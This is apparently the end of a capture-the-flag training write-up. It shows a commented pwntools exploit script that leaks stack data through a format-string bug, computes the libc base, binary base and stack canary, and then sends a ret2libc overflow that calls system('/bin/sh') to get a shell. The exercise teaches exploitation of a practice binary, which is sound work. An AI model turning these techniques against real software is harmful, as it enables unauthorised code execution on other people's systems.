 ```py
p.sendlineafter("So you wanna try again. Go ahead :)", b"%p "*25) # send format specifier to leak data from the stack
p.recvline() # recv the new line.

all_leaked = str(p.recvline()).split() # store all leaked data as a list.
log.info("Info leaked: " + str(all_leaked)) # log it to make sure everything works fine
libc_base = int(str(all_leaked[0])[2:], 16) - 2013699 # take the first element in the list which is a libc function.
log.info("Libc Base: "+ str(hex(libc_base))) # log it
binary_base = int(str(all_leaked[-6])[2:], 16) - 4256 # calculate the binary offset from the leak.
log.info("binary_base: " + str(hex(binary_base))) # log it
canary = int(str(all_leaked[-4])[2:], 16) # store the canary from the leak

# pahse 2 : usign the leak to ret2libc

buf = b"A"*(0x60+8) + p64(canary) # fill the buffer till the canary and overwrite the canary with real one.
buf += p64(binary_base+0x0000000000001016) # random garbage to fill the rbp
buf += p64(binary_base+0x00000000000012cb) # return address
print(next(libc.search(b'/bin/sh\x00'))) # find the address of libc bin/sh
buf += p64(libc_base + next(libc.search(b'/bin/sh\x00'))) 
buf += p64(binary_base+0x0000000000001016) # return to make sure stack is aligned before a glibc call
buf += p64(libc_base + libc.sym.system) # call system.

p.sendlineafter("Missed again??? I'm so disappointed.", buf)


p.interactive()
```

Hope you loved this challenge in the training !Happy Hacking! :D